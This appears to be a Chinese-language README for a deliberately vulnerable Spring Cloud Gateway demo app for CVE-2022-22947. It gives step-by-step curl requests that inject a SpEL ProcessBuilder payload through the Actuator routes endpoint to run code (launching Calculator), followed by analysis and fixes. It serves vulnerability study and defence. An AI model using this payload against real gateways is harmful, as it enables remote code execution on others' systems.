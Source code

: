# CVE-2022-22947 Spring Cloud Gateway 漏洞验证应用

这是一个专门用于演示和验证 CVE-2022-22947 漏洞的 Spring Cloud Gateway 应用。该应用程序使用了易受攻击的 Spring Cloud Gateway 版本，可以通过 Actuator 端点执行任意代码。

## 漏洞概述

CVE-2022-22947 是 Spring Cloud Gateway 中的一个远程代码执行漏洞。攻击者可以通过 Actuator 端点动态添加包含恶意 SpEL 表达式的路由来执行任意代码。

## 环境要求

- Java 11+
- Maven 3.6+
- macOS 系统（用于计算器演示）

## 启动应用

```bash
mvn spring-boot:run
```

应用将在 `http://localhost:8080` 上启动。

## 漏洞验证步骤

### 第一步：添加恶意路由

发送 POST 请求到 `/actuator/gateway/routes/test` 端点，添加包含恶意 SpEL 表达式的路由：

```bash
curl -X POST http://localhost:8080/actuator/gateway/routes/test \
  -H "Content-Type: application/json" \
  -d '{
    "id": "test",
    "filters": [
      {
        "name": "AddResponseHeader",
        "args": {
          "name": "Result",
          "value": "#{new java.lang.ProcessBuilder(\"open\", \"-a\", \"Calculator\").start()}"
        }
      }
    ],
    "uri": "http://example.com",
    "predicates": [
      {
        "name": "Path",
        "args": {
          "_genkey_0": "/test"
        }
      }
    ]
  }'
```

### 第二步：刷新路由

发送 POST 请求到 `/actuator/gateway/refresh` 端点来刷新路由：

```bash
curl -X POST http://localhost:8080/actuator/gateway/refresh
```

### 第三步：触发恶意代码

访问恶意路由来触发代码执行：

```bash
curl http://localhost:8080/test
```

### 预期结果

成功利用漏洞后，macOS 计算器应用程序将会启动。

## 关键请求信息

### 1. 添加恶意路由的请求

**端点**: `POST /actuator/gateway/routes/test`

**请求头**:
```
Content-Type: application/json
```

**请求体**:
```json
{
  "id": "test",
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "Result",
        "value": "#{new java.lang.ProcessBuilder(\"open\", \"-a\", \"Calculator\").start()}"
      }
    }
  ],
  "uri": "http://example.com",
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/test"
      }
    }
  ]
}
```

### 2. 刷新路由的请求

**端点**: `POST /actuator/gateway/refresh`

### 3. 触发漏洞的请求

**端点**: `GET /test`

## 漏洞分析

该漏洞允许攻击者通过 Actuator 端点动态添加路由，并在路由过滤器中使用 SpEL 表达式执行任意代码。漏洞的核心在于 Spring Cloud Gateway 对路由配置中的 SpEL 表达式处理不当。

## 修复建议

1. 升级到 Spring Cloud Gateway 3.1.1+ 或 3.0.7+
2. 禁用 Actuator 端点或限制访问
3. 使用 Spring Security 保护 Actuator 端点

## 版本信息

- Spring Boot: 2.6.2
- Spring Cloud: 2021.0.0
- Spring Cloud Gateway: 3.1.0 (易受攻击版本)

## 注意事项

⚠️ **安全警告**: 此应用仅用于教育和安全研究目的。请勿在生产环境中使用或部署此应用。

⚠️ **法律声明**: 使用此应用进行漏洞测试时，请确保您有适当的授权。未经授权的测试可能违反法律法规。